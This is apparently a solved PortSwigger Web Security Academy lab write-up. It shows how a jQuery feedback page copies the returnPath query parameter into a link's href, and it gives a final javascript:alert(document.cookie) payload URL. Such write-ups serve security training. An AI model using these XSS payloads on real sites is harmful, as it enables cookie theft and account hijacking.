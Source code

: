 ## 🧪 Lab: DOM XSS in jQuery anchor href attribute sink using location.search source (APPRENTICE)

---

## 🎯 Mission Description  
This lab contains a DOM-based cross-site scripting vulnerability on the feedback page. It uses jQuery's `$()` function to locate an anchor element and updates its `href` attribute using unsanitized input from `location.search`.

---

## 🎯 Mission Objective  
Trigger an alert displaying `document.cookie` by exploiting the vulnerable "back" link.

---

## 🪜 Steps

1. Go to the feedback page:

   ```
   https://0a1300e3046afaee80d203a800f8009c.web-security-academy.net/feedback?returnPath=/
   ```

2. View the source code and find this jQuery block:

   ```javascript
   $(function() {
     $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
   });
   ```

   → This takes the `returnPath` parameter from the URL and sets it as the `href` attribute of the `#backLink` anchor.

3. Try a benign test like:

   ```
   ?returnPath=/profile
   ```

   This results in:

   ```html
   <a id="backLink" href="/profile">Go back</a>
   ```

   ✅ Confirms direct injection into `href`.

4. Try injecting a `javascript:` URL:

   ```
   ?returnPath=javascript:alert(document.cookie)
   ```

   Which becomes:

   ```html
   <a id="backLink" href="javascript:alert(document.cookie)">Go back</a>
   ```

5. Click the "Go back" link → 💥 Alert fires.

---

## 💣 Final Payload

```
https://0a1300e3046afaee80d203a800f8009c.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

---

## 📝 Notes  
- Vulnerable sink: `.attr("href", ...)`
- Input source: `location.search → returnPath`
- The sink blindly trusts input and allows `javascript:` URLs
- DOM XSS often abuses `javascript:` links when `href` attributes are set directly from unsanitized sources

---

**✅ Status: Solved**
